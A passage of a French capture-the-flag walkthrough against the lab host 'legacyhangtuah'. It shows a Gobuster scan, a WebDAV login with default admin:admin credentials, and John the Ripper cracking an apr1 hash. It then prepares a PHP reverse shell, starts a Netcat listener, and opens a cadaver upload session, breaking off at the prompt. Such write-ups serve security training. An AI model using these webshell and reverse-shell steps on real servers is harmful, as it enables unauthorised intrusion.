 Effectivement, il existe un sous domaine "door.legacyhangtuah.com". Pour le prendre en compte, modifiez à nouveau le fichier "hosts" pour que l'adresse IP du serveur pointe sur ce sous domaine.

```bash
$ sudo vim /etc/hosts
192.168.1.28    legacyhangtuah.com door.legacyhangtuah.com
```

On fait de nouveau un scan avec **Gobuster** sur ce sous domaine.

```bash
$ gobuster dir -u http://door.legacyhangtuah.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt,.xml,.js,.md,.log,.zip
/images               (Status: 301) [Size: 335] [--> http://door.legacyhangtuah.com/images/]
/index.php            (Status: 200) [Size: 2062]
/README.md            (Status: 200) [Size: 1998]
/LICENSE              (Status: 200) [Size: 6554]
/webdav               (Status: 401) [Size: 470]
```

[http://door.legacyhangtuah.com/webdav](http://door.legacyhangtuah.com/webdav) est une page protégée mais pas suffisament car "admin:admin" fonctionne. Dans cette page il y a un fichier "passwd.dav" avec ce contenu `admin:$apr1$9tA20Rqw$4qbIQ4QFUV6uUVhfH9NSJ/`.

Mot de passe que l'on peut décoder avec **John the Ripper**.

```bash
$ echo 'admin:$apr1$9tA20Rqw$4qbIQ4QFUV6uUVhfH9NSJ/' >> password.txt
$ john password.txt
admin            (admin)
```

De nouveau, le mot de passe est "admin".

```bash
$ ssh admin@$IP
admin@192.168.1.28's password: admin
```

Non ça ne marche pas, encore une fausse piste. Sur Internet, il s'avère que **WebDAV** est un protocole de **HTTP**. Après des recherche, il est possible d'uploader des fichiers sur ce genre de serveur avec un outil nommé **cadaver** (installé par défaut sur Kali Linux). On s'empresse de préparer un webshell.

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php .
$ vim php-reverse-shell.php
/$ip
```

Puis dans un nouvel onglet du terminal, on lance un serveur **Netcat** sur le port **1234** `nc -lvp 1234`.

```bash
$ cadaver http://door.legacyhangtuah.com/webdav
Authentication required for webdav on server `door.legacyhangtuah.com':
Username: admin
Password:
dav:/webdav/>
```
